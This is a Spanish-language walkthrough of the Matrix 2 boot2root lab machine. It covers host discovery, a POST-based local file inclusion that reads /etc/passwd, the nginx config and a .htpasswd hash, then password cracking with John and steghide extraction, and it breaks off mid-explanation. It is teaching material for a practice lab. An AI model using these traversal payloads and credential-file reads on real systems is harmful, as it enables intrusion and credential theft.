









# Matrix 2 

Esta versión mantiene la misma cadena de explotación, pero añade más explicación de herramientas, decisiones y conceptos internos. La idea no es solo que “sepas qué comando lanzar”, sino que entiendas **qué está ocurriendo realmente por debajo** cuando lo ejecutas.

---

## Nota metodológica importante

En esta máquina hay varias fases donde no basta con “probar cosas”. Hay que entender por qué una prueba tiene sentido:

- por qué `robots.txt` merece atención;
- por qué un parámetro puede funcionar por `POST` y no por `GET`;
- por qué una `LFI` no se limita a leer `/etc/passwd`;
- por qué un `.htpasswd` es una mina de credenciales;
- por qué `steghide` puede sacar datos de una imagen aunque no veas nada raro;
- por qué un binario `SUID` puede darte root si internamente ejecuta comandos.

Eso es exactamente lo que se amplía aquí.

---


# Writeup extremadamente detallado de Matrix 2

## Descripción original y traducción

**Texto original:**

> Matrix v2.0 is a medium level boot2root challenge. The OVA has been tested on both VMware and Virtual Box.  
> Difficulty: Intermediate  
> Flags: Your Goal is to get root and read /root/flag.txt  
> Networking: DHCP: Enabled, IP Address: Automatically assigned  
> Hint: Follow your intuitions ... and enumerate!

**Traducción al español:**

**Descripción:** Matrix v2.0 es un reto *boot2root* de dificultad media. La máquina OVA ha sido probada tanto en VMware como en VirtualBox.  

**Dificultad:** Intermedia.  

**Objetivo:** Conseguir acceso **root** y leer el archivo `/root/flag.txt`.  

**Red:** DHCP habilitado. La dirección IP se asigna automáticamente.  

**Pista:** Sigue tu intuición… y enumera.

---

## Qué significa boot2root

Una máquina *boot2root* es una máquina vulnerable diseñada para practicar todo el ciclo de intrusión:

1. descubrir la IP de la víctima;
2. enumerar servicios y superficie de ataque;
3. encontrar una vía de entrada inicial;
4. conseguir una shell o acceso como usuario;
5. escalar privilegios;
6. llegar a root;
7. leer la flag final.

Eso es importante porque en este tipo de máquinas el objetivo no es solo “entrar”, sino completar toda la cadena de ataque.

---

## Configuración de red en NAT y por qué

Aquí hemos configurado la Kali y la máquina víctima en **NAT**.

### Qué implica NAT

Cuando usas NAT en VMware:

- el hipervisor crea una red privada virtual;
- las máquinas virtuales dentro de esa red pueden verse entre sí;
- pueden salir a internet a través del servicio NAT de VMware;
- pero no están directamente expuestas en tu red física de casa o de trabajo.

### Por qué es útil en laboratorios

Esto es útil porque:

- la enumeración es más limpia;
- solo ves las máquinas del entorno virtual y algunos componentes del propio VMware;
- reduces ruido;
- evitas escanear por error tu red real;
- te resulta más fácil identificar cuál es la víctima.

### Diferencia mental entre NAT y Bridge

#### NAT
Es una red privada interna creada por VMware.

#### Bridge
La VM participa directamente en la red física real.

Para practicar VulnHub, NAT suele ser más cómodo, más aislado y más seguro.

---

## Identificación de nuestra IP con `ip a`

Después de arrancar las máquinas, desde Kali lanzamos:

```bash
ip a
```

Y observamos la interfaz `eth0` con esta IP:

```bash
inet 192.168.184.128/24
```

Eso significa:

- IP atacante: `192.168.184.128`
- máscara: `/24` = `255.255.255.0`

Por tanto, la red en la que estamos trabajando es:

```bash
192.168.184.0/24
```

---

## Descubrimiento de hosts activos con Nmap

Lanzamos:

```bash
sudo nmap -n -sn 192.168.184.128/24
```

### Explicación de las flags

#### `sudo`
Nmap necesita privilegios elevados para determinados tipos de sondeo de red.

#### `-n`
No resuelve DNS.  
Esto hace que el escaneo sea más rápido y evita consultas innecesarias de nombres.

#### `-sn`
Solo hace descubrimiento de hosts.  
No escanea puertos.  
Su función aquí es averiguar qué IPs están vivas.

#### `192.168.184.128/24`
Es el rango de red que vamos a recorrer.

---

## Resultado del descubrimiento

Nos aparecen:

- `192.168.184.1`
- `192.168.184.2`
- `192.168.184.128`
- `192.168.184.132`
- `192.168.184.254`

Sabemos que:

- `192.168.184.128` es nuestra Kali;
- por descarte, la víctima es `192.168.184.132`.

### Qué suelen ser `.1`, `.2` y `.254`

#### `192.168.184.1`
Suele ser la puerta de enlace virtual del NAT de VMware.

#### `192.168.184.2`
Suele estar asociada al servicio DHCP que reparte las IPs.

#### `192.168.184.254`
Suele ser otra interfaz o servicio interno del entorno virtual.

---

## Escaneo completo de puertos

Ahora lanzamos:

```bash
sudo nmap -p- --open -sCV -Pn -T5 -vvv -oN fullscan 192.168.184.132
```

### Explicación detallada de las flags

#### `-p-`
Escanea todos los puertos TCP, del 1 al 65535.

#### `--open`
Solo muestra puertos abiertos.

#### `-sC`
Ejecuta los scripts por defecto de Nmap.

#### `-sV`
Intenta identificar la versión del servicio.

#### `-Pn`
No hace comprobación previa de si el host responde a ping. Lo trata como activo.

#### `-T5`
Escaneo muy agresivo y rápido. En laboratorio suele ir bien, aunque puede ser demasiado rápido en entornos reales.

#### `-vvv`
Mucha verbosidad. Útil para ver más detalle de lo que está pasando.

#### `-oN fullscan`
Guarda la salida normal en un archivo llamado `fullscan`.

---

## Servicios descubiertos

```text
80/tcp    open  http               nginx 1.10.3
1337/tcp  open  ssl/http           nginx
12320/tcp open  ssl/http           ShellInABox
12321/tcp open  ssl/warehouse-sss?
12322/tcp open  ssl/http           nginx
```

Además, en el puerto 12322 aparece algo interesante relacionado con `file_view.php`.

---

## Interpretación inicial de la superficie de ataque

### Puerto 80
Servidor web Nginx normal.  
Es el primer sitio que vamos a visitar.

### Puerto 1337
Servicio web sobre SSL/TLS, también servido por Nginx.  
El puerto 1337 no es estándar, así que llama la atención.

### Puerto 12320
`ShellInABox` es una consola Linux accesible desde el navegador.  
Eso ya nos dice que potencialmente hay una terminal remota web.

### Puerto 12321
Nmap no identifica con certeza el servicio, pero sabe que usa SSL/TLS.

### Puerto 12322
Otro servicio HTTPS con Nginx, y el escaneo ya sugiere un archivo interesante: `file_view.php`.

---

## NGINX explicado de forma sencilla

NGINX, que se pronuncia algo parecido a “engine-x”, es un servidor web.  
Su trabajo es recibir peticiones HTTP o HTTPS y responder con páginas, archivos u otros contenidos.

Cuando escribes en el navegador una URL, pasa algo así:

```text
navegador → servidor web → respuesta HTML / recurso
```

Ese servidor web puede ser Apache, NGINX, Caddy, etc. Aquí es NGINX.

---

## Visita al puerto 80

Abrimos:

```text
http://192.168.184.132:80
```

Y vemos la **imagen 1**.



### Texto mostrado y traducción

La página dice, resumidamente:

> This is your last chance. After this, there is no turning back. You take the blue pill - the story ends, you wake up in your bed and believe whatever you want to believe. You take the red pill - you stay in Wonderland and I show you how deep the rabbit-hole goes.  
> You have to let it all go, Neo. Fear, doubt, and disbelief. Free your mind.

### Traducción

> Esta es tu última oportunidad. Después de esto, no hay vuelta atrás. Tomas la píldora azul: la historia termina, te despiertas en tu cama y crees lo que quieras creer. Tomas la píldora roja: te quedas en Wonderland y te enseño hasta dónde llega la madriguera del conejo.  
> Tienes que dejarlo todo ir, Neo. Miedo, duda e incredulidad. Libera tu mente.

### Lectura práctica de esta página

Temáticamente está llena de referencias a Matrix, pero a nivel técnico aquí, según tus notas, no había pistas reales en el source code ni en el fuzzing del puerto 80.

Aun así, la metodología correcta es revisarlo, porque eso no lo sabes antes de comprobarlo.

---

## Fuzzing del puerto 80 con ffuf

Lanzamos:

```bash
ffuf -u http://192.168.184.132/FUZZ -c -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 100
```

### Explicación detallada de las flags

#### `-u`
Define la URL objetivo.  
`FUZZ` es el marcador que ffuf va sustituyendo por cada palabra del diccionario.

#### `-c`
Añade color a la salida. Es solo visual.

#### `-w`
Especifica el diccionario a usar.

#### `-t 100`
Lanza 100 hilos concurrentes.  
Acelera el proceso, aunque en entornos reales puede ser agresivo.

### Resultado

No se obtiene nada útil.  
Eso también es una conclusión válida: el puerto 80 aquí no aporta mucho.

---

## Puerto 1337: primera visita y cambio a HTTPS

Probamos `http://192.168.184.132:1337` y recibimos la **imagen 2**.



### Qué significa ese error

El error dice:

> 400 Bad Request  
> The plain HTTP request was sent to HTTPS port

### Traducción

> 400 Solicitud incorrecta  
> Se envió una petición HTTP plana a un puerto HTTPS

### Qué significa realmente

Estás hablando HTTP normal con un servicio que espera HTTPS cifrado.

Por eso la solución es cambiar la URL a:

```text
https://192.168.184.132:1337
```

---

## Prompt de autenticación en el 1337

Cuando entras por HTTPS, aparece un cuadro de autenticación básica, como en la **imagen 3**.



No tenemos aún usuario ni contraseña, así que por el momento no podemos avanzar por aquí.

---

## Puerto 12320: Shell In A Box

Probamos:

```text
https://192.168.184.132:12320
```

Y vemos una terminal web pidiendo credenciales, como en la **imagen 4**.



### Qué es Shell In A Box

`ShellInABox` es una aplicación que permite exponer una terminal Linux a través del navegador.

No es exactamente SSH, pero el efecto práctico es parecido: una sesión de consola remota vía web.

### Qué implica

Si conseguimos credenciales válidas, aquí probablemente podremos abrir una shell del sistema.

De momento no las tenemos, así que seguimos enumerando.

---

## Puerto 12321

Se prueba acceso web, pero no resulta útil en esta fase.  
Ninguna pista clara, así que por ahora se aparca.

---

## Puerto 12322: acceso a la web

Visitamos:

```text
https://192.168.184.132:12322
```

Y vemos una página similar a la del 80, como en la **imagen 5**.



A simple vista parece poco interesante, pero esta vez el Nmap ya había dado pistas concretas.

---

## Fuzzing del puerto 12322

Probamos:

```bash
ffuf -u http://192.168.184.132:12322/FUZZ -c -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 100
```

### Explicación de flags
Son las mismas que antes:

- `-u`: URL objetivo con marcador `FUZZ`
- `-c`: color
- `-w`: wordlist
- `-t 100`: número de hilos

### Resultado

No saca nada útil por fuerza bruta de rutas.  
Pero aquí el punto importante es no ignorar la información previa de Nmap.

---

## La pista importante que ya nos había dado Nmap

En el puerto 12322, Nmap mostraba esto:

```text
http-robots.txt: 1 disallowed entry
file_view.php
http-title: Welcome in Matrix v2 Neo
ssl-date: TLS randomness does not represent time
```

De todo eso, la parte realmente útil es:

```text
robots.txt → Disallow: file_view.php
```

---

## Qué es robots.txt y por qué interesa

`robots.txt` es un archivo que se coloca normalmente en la raíz de un sitio web para dar instrucciones a bots y motores de búsqueda.

Por ejemplo, le dice a Google o a otros crawlers:

- qué partes no indexar;
- qué rutas evitar.

### Lo importante: robots.txt no protege nada por sí mismo

`Disallow` no significa “bloqueado para humanos”.  
Solo significa “por favor, bot, no indexes esto”.

Por eso, en pentesting, `robots.txt` es muy interesante:
- a veces revela rutas sensibles;
- paneles administrativos;
- backups;
- endpoints ocultos;
- ficheros que el desarrollador preferiría que no salieran a la luz.

---

## Revisión de robots.txt

Abrimos:

```text
https://192.168.184.132:12322/robots.txt
```

Y vemos:

```text
User-agent: *
Disallow: file_view.php
```

### Interpretación correcta

Eso no significa que esté realmente prohibido.  
Solo significa que el autor no quiere que los bots lo indexen.

Así que lo siguiente correcto es probar directamente:

```text
https://192.168.184.132:12322/file_view.php
```

---

## Acceso a file_view.php

La página se ve aparentemente en blanco, pero en realidad responde con **200 OK**, como se aprecia en la **imagen 6**.



### Por qué esto importa

Un `200 OK` significa que:

- el recurso existe;
- el servidor lo ha procesado correctamente;
- no estamos ante un 404 ni un acceso denegado.

Por tanto, el archivo está accesible.

---

## Source code de file_view.php

Al revisar con `Ctrl + U` aparece:

```html
<!-- Error file parameter missing..!!! -->
```

### Qué nos está diciendo esto

Muy claramente:

- el script espera un parámetro llamado `file`;
- como no se lo has dado, responde con un error en comentario HTML.

Esto ya es una pista muy fuerte de que el script probablemente carga o muestra un archivo según el valor del parámetro `file`.

Y ahí es donde entra la idea de LFI.

---

## Qué es una LFI

**LFI** significa **Local File Inclusion**.

Es una vulnerabilidad en la que una aplicación permite al usuario indicar el nombre o la ruta de un archivo local del sistema y lo incluye, lo muestra o lo procesa.

### Qué puede permitir

Según cómo esté implementada, una LFI puede permitir:

- leer archivos del sistema;
- descubrir credenciales;
- acceder a configuraciones;
- ver código fuente;
- en algunos casos llevar a RCE si se combina con otras técnicas.

### Ejemplo mental simple

Si el PHP hace algo parecido a:

```php
include($_REQUEST['file']);
```

o

```php
readfile($_POST['file']);
```

y no valida bien el parámetro, tú podrías intentar rutas como:

```text
../../../../../../../etc/passwd
```

y llegar a archivos sensibles.

---

## Primer intento: parámetro en GET

Lo natural es probar con algo así:

```text
file_view.php?file=test
```

Pero el comportamiento no es el esperado.  
La aplicación sigue contestando como si faltara el parámetro.

### Qué nos hace pensar esto

Puede significar varias cosas:

- que el parámetro no se procesa por GET;
- que el nombre no llega bien;
- que el código solo escucha datos enviados por POST;
- o que hay alguna lógica adicional.

Ahí es donde Burp Suite se vuelve útil.

---

## Uso de Burp Suite y por qué

Capturamos la petición a:

```text
https://192.168.184.132:12322/file_view.php?file=test
```

Y la mandamos a Repeater.

### Qué es Repeater

Repeater es una funcionalidad de Burp Suite que te permite:

- tomar una petición ya interceptada;
- modificarla manualmente;
- reenviarla todas las veces que quieras;
- ver de inmediato la respuesta;
- iterar sin tener que repetir el flujo del navegador.

Es ideal para:
- pruebas de parámetros;
- LFI;
- SQLi;
- cambios de método GET/POST;
- manipulación fina de requests.

---

## Por qué cambiar de GET a POST puede funcionar

Aquí es donde querías una explicación muy clara.

### GET
En una petición GET, los parámetros normalmente viajan en la URL:

```text
/file_view.php?file=test
```

### POST
En una petición POST, los parámetros suelen ir en el **cuerpo** de la petición, no en la URL.

Ejemplo:

```http
POST /file_view.php HTTP/1.1
Content-Type: application/x-www-form-urlencoded

file=test
```

### Por qué esto puede cambiarlo todo

Porque el desarrollador puede haber programado el script para leer:

- `$_POST['file']`
- o `$_REQUEST['file']` con lógica específica
- o incluso tener validación distinta según método

Si el PHP espera el parámetro en POST y tú se lo mandas en GET, entonces el script puede actuar como si no hubiera recibido nada.

### Traducción humana

No es que el parámetro esté mal escrito.  
Es que quizá lo estás enviando **por el canal incorrecto**.

---

## Petición en POST

La transformamos a algo como:

```http
POST /file_view.php HTTP/1.1
Host: 192.168.184.132:12322
Content-Type: application/x-www-form-urlencoded

file=../../../../../../../etc/passwd
```

### Por qué el parámetro va en el body

Porque así funciona `application/x-www-form-urlencoded` en una petición POST:

- la URL identifica el recurso;
- el cuerpo lleva los campos de formulario.

Es lo mismo que haría un formulario HTML con `method="POST"`.

---

## Resultado: 200 OK y lectura de /etc/passwd

La respuesta es:

```http
HTTP/1.1 200 OK
```

### Qué significa 200 OK

Es el código estándar que dice:

> La petición se ha procesado correctamente

Aquí además la respuesta incluye el contenido del archivo solicitado, en este caso `/etc/passwd`.

Eso confirma la LFI.

---

## Qué es /etc/passwd y por qué es útil

`/etc/passwd` es un archivo clásico de Unix/Linux que contiene información de cuentas del sistema.

Cada línea tiene campos como:

- nombre de usuario;
- UID;
- GID;
- descripción;
- directorio home;
- shell.

### Usuarios interesantes detectados

Entre todos, destacan:

```text
n30:x:1000:1000:Neo,,,:/home/n30:/bin/bash
testuser:x:1001:1001::/home/testuser:
```

El usuario más interesante es **n30**, porque:

- tiene UID 1000, típico primer usuario humano;
- tiene home en `/home/n30`;
- tiene shell `/bin/bash`.

Eso lo convierte en candidato fuerte para acceso interactivo.

---

## Confirmación desde curl

También se puede hacer desde terminal:

```bash
curl -X POST -k https://192.168.184.132:12322/file_view.php -d "file=../../../../../../../etc/passwd"
```

### Explicación detallada de las flags

#### `curl`
Herramienta de línea de comandos para hacer peticiones HTTP/HTTPS.

#### `-X POST`
Fuerza el método HTTP POST.  
Es decir, en vez de GET, la petición será POST.

#### `-k`
Ignora problemas del certificado TLS/SSL.  
Esto es importante aquí porque estamos usando HTTPS con certificado autofirmado o no confiable.

Si no pones `-k`, curl puede negarse a continuar por validar el certificado.

#### URL
El endpoint vulnerable.

#### `-d "file=..."`
Envía datos de formulario en el body.  
Además, cuando usas `-d`, curl automáticamente usa POST si no has especificado otro método.

### Resultado
Devuelve el mismo contenido que vimos en Burp: el `/etc/passwd`.

---

## Qué archivos conviene revisar con una LFI en un servidor NGINX

Una vez confirmada la LFI, toca pensar bien.  
Ya sabemos que el servidor es NGINX, así que uno de los primeros archivos interesantes suele ser la configuración del virtual host.

Ruta común:

```bash
/etc/nginx/sites-available/default
```

### Por qué interesa tanto

Porque ahí puedes encontrar:

- rutas raíz del sitio;
- configuraciones de autenticación;
- archivos `.htpasswd`;
- proxys;
- inclusiones PHP;
- nombres de directorios web;
- hosts virtuales;
- puertos;
- alias;
- rutas interesantes.

---

## Lectura de la configuración de NGINX

Pedimos:

```text
file=../../../../../../../etc/nginx/sites-available/default
```

Y obtenemos algo como:

```nginx
server {
    listen 0.0.0.0:80;
    root /var/www/4cc3ss/;
    index index.html index.php;

    include /etc/nginx/include/php;
}

server {
    listen 1337 ssl;
    root /var/www/;
    index index.html index.php;

    auth_basic "Welcome to Matrix 2";
    auth_basic_user_file /var/www/p4ss/.htpasswd;

    fastcgi_param HTTPS on;
    include /etc/nginx/include/ssl;
    include /etc/nginx/include/php;
}
```

### Qué aprendemos aquí

#### Puerto 80
Su raíz web real es:

```bash
/var/www/4cc3ss/
```

#### Puerto 1337
Tiene autenticación básica configurada con:

```bash
auth_basic_user_file /var/www/p4ss/.htpasswd;
```

### Por qué esto es una mina de oro

Ese archivo `.htpasswd` suele contener:

- usuarios;
- hashes de contraseña para autenticación básica HTTP.

Si podemos leerlo por LFI, quizá consigamos credenciales reales.

---

## Lectura del .htpasswd

Pedimos:

```text
file=../../../../../../../var/www/p4ss/.htpasswd
```

Y obtenemos:

```text
Tr1n17y:$apr1$7tu4e5pd$hwluCxFYqn/IHVFcQ2wER0
```

### Qué significa esto

Tenemos:

- usuario: `Tr1n17y`
- contraseña: no en claro, sino hasheada

El hash empieza por `$apr1$`, que es un formato típico de **Apache MD5** usado en `.htpasswd`.

---

## Crackeo del hash con John

Guardamos el hash y usamos:

```bash
john hash --wordlist=/usr/share/wordlists/rockyou.txt
```

### Qué hace John the Ripper

John es una herramienta de cracking de contraseñas.  
Toma un hash y prueba palabras de un diccionario hasta encontrar la que genera ese mismo hash.

### Qué es `rockyou.txt`

Es uno de los diccionarios de contraseñas más conocidos en pentesting.  
Contiene millones de contraseñas filtradas de usuarios reales.

### Resultado

La contraseña es:

```text
admin
```

Así que las credenciales quedan:

- usuario: `Tr1n17y`
- contraseña: `admin`

---

## Login en el panel del puerto 1337

Probamos esas credenciales en el 1337 y entramos correctamente.

La web autenticada muestra el mensaje de la **imagen 7**.



### Texto mostrado y traducción

```html
I'm trying to free your mind, n30.
But I can only show you the door.
You're the one that has to walk through it.
```

### Traducción

> Estoy intentando liberar tu mente, **n30**.  
> Pero solo puedo mostrarte la puerta.  
> Eres tú quien tiene que atravesarla.

### Qué nos deja claro este mensaje

El nombre **n30** aparece en rojo y no parece casual.  
Ya sabíamos por `/etc/passwd` que `n30` existe como usuario real del sistema.

Por tanto, este mensaje está probablemente orientándonos hacia:
- el usuario `n30`;
- una siguiente pista relacionada con él;
- una posible credencial o acceso.

---

## Source code del área autenticada y hallazgo de un comentario

Revisando el código fuente, aparece una ruta:

```html
src="4cc3ss/js/index.js"
```

Eso llama la atención porque `4cc3ss` recuerda a “access”.

Probamos navegar por:

```text
https://192.168.184.132:1337/4cc3ss/
```

Pero no aporta nada útil a simple vista.  
Tampoco el JS parece especialmente interesante.

Sin embargo, revisando mejor el source code aparece un comentario:

```html
<!--img src="h1dd3n.jpg"-->
```

### Por qué esto importa

Hay una imagen comentada, es decir:
- no se carga visualmente en la página;
- pero el recurso parece existir;
- y el nombre `h1dd3n.jpg` ya sugiere que algo se está ocultando.

---

## Acceso a h1dd3n.jpg

Probamos:

```text
https://192.168.184.132:1337/h1dd3n.jpg
```

y obtenemos una imagen con un mensaje, la **imagen 8**.


### Traducción del mensaje de la imagen

El texto de la imagen dice algo como:

> “Estoy intentando liberar tu mente, Neo.  
> Pero solo puedo mostrarte la puerta.  
> Eres tú quien tiene que atravesarla.”

Es otra frase de Morpheus, muy alineada con el tema del reto.

### Lo importante aquí no es solo el texto
Lo importante es que:

- la imagen estaba oculta en comentario;
- el sitio ya estaba señalando a `n30`;
- quizá haya algo escondido dentro de la imagen.

---

## Análisis de metadatos y siguiente idea

Se revisa con herramientas tipo:
- `exiftool`
- `strings`
- análisis de metadatos

Pero no aparece nada decisivo.

Entonces conectas dos ideas:

1. el mensaje visible en la página autenticada resaltaba `n30` en rojo;
2. la imagen se llama rara y está escondida;
3. la web parece de temática CTF bastante “idea feliz”;
4. una posibilidad muy razonable es **esteganografía**.

---

## Uso de steghide

Probamos:

```bash
steghide extract -sf img.jpeg -p n30
```

### Explicación detallada de las flags

#### `steghide`
Herramienta para ocultar o extraer datos embebidos en archivos portadores, normalmente imágenes o audio.

#### `extract`
Modo extracción.  
Le estás diciendo: intenta sacar información oculta.

#### `-sf img.jpeg`
`-sf` significa *stego file*, es decir, el archivo portador que podría contener datos ocultos.

#### `-p n30`
Es la contraseña o passphrase que usará para intentar descifrar o acceder al contenido oculto.

### Por qué probar `n30` como contraseña
Porque acabábamos de ver `n30` resaltado visualmente y la máquina te estaba señalando mucho ese nombre.

### Resultado

```text
wrote extracted data to "n30.txt".
```

Se extrajo un archivo oculto llamado `n30.txt`.

---

## Contenido de n30.txt

Hacemos:

```bash
cat n30.txt
```

Y aparece:

```text
P4$$w0rd
```

### Qué significa esto

